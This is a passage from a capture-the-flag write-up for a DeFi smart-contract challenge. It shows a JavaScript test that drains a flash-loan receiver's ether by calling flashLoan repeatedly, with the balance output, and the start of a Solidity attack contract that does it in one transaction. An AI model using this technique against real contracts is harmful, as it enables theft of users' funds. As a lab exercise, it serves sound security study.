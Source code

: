 We can call `flashLoan` `10` times in a loop and drain all the borrower's balance.:

```javascript
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */

        let balance = ethers.utils.formatEther(await ethers.provider.getBalance(this.receiver.address));
        while (balance > 0){
            console.log(`Borrower balance: ${balance}`);
            await this.pool.connect(attacker).flashLoan(this.receiver.address, ethers.utils.parseEther('0'));
            balance = ethers.utils.formatEther(await ethers.provider.getBalance(this.receiver.address));
        }

        console.log(`Borrower balance: ${balance}`);
    });
```

Output:
```

Borrower balance: 10.0
Borrower balance: 9.0
Borrower balance: 8.0
Borrower balance: 7.0
Borrower balance: 6.0
Borrower balance: 5.0
Borrower balance: 4.0
Borrower balance: 3.0
Borrower balance: 2.0
Borrower balance: 1.0
Borrower balance: 0.0

```


However, with the code above, every time we call `flashLoan`, this will be executed in a single transaction, so we need to perform `10` transactions to solve the challenge.

### 3.2) Solution 2: single transaction

To optimize the number of transactions, we can implement the same logic in a contract and then call the function only once.

`AttackNaiveReceiver.sol`:
```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


interface INaiveReceiverLenderPool {
    function flashLoan(address borrower, uint256 borrowAmount) external;
}

/**
 * @title AttackNaiveReceiver
 */
contract AttackNaiveReceiver {

    INaiveReceiverLenderPool lenderPool;
    
    constructor(address _pool) {
        lenderPool = INaiveReceiverLenderPool(_pool);
    }
```